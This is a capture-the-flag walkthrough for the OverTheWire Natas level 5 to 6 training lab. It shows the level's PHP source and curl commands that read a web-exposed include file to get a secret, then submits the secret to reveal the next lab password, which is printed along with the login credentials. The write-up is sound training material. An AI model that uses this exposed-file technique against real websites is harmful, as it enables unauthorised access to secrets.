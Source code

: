# Level 5 - Level 6: Natas - OverTheWire

## Level Goal

Username: natas6
URL:      http://natas6.natas.labs.overthewire.org

## Solution

Running `natas.sh` first, we can see an input form asking for a secret, as well as a link to view the sourcecode.

```html
<form method=post>
Input secret: <input name=secret><br>
<input type=submit name=submit>
</form>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```

When viewing the `/index-source.html` page, it is clear that this webserver is running PHP:

```php
<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>
```

Essentially, this PHP code includes a file named `secret.inc` and checks if a user has entered the correct secret value. The `include` statement is used to include the contents of the file `includes/secret.inc`.

The `array_key_exists` function is used to check if the "submit" key exists in the `$_POST` array. The `$_POST` array is a special PHP variable that contains data submitted from an HTML form.

If the `submit` key exists in the `$_POST` array, the code then checks if the value of the `secret` key in the `$_POST` array matches the value of the `$secret` variable, which is defined in the included file `includes/secret.inc`.

To obtain the value of `$secret`, we can make a `curl` request to `http://natas6.natas.labs.overthewire.org/includes/secret.inc`:

```bash
└─$ curl -s -u natas6:fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR http://natas6.natas.labs.overthewire.org/includes/secret.inc
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

And with that, the `$secret` variable is revealed. We can now submit this value as a `POST` request to `http://natas6.natas.labs.overthewire.org/` to uncover the password for the next level.

```bash
└─$ curl -d "secret=FOEIUWGHFEEUHOFUOIU&submit=submit" -X POST http://natas6.natas.labs.overthewire.org/ -s -u natas6:fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR | grep password

Access granted. The password for natas7 is jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr

```

Brief command explanation:

* `curl -d`: Used to specify the data to send in a `POST` request to an HTTP server (similar to how the browser does this when you fill in an HTML form and press submit)
    * In this case, we are setting `secret=FOEIUWGH...`, separating by `&` and setting `submit=submit`

* `curl -X POST`: Used to specify the type of request, in this case `POST`
* `curl -s`: Silent output (avoid outputting progress bar)
